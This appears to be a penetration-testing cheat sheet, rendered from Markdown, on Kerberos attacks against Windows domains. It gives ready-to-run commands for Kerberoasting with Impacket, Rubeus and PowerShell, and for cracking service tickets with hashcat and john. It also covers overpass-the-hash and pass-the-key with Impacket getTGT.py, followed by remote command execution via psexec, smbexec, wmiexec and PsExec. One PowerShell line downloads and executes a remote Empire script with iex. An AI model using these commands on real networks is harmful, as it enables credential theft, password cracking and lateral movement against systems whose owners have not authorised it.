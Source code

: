 ## Kerberoasting

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
```shell
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```


With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
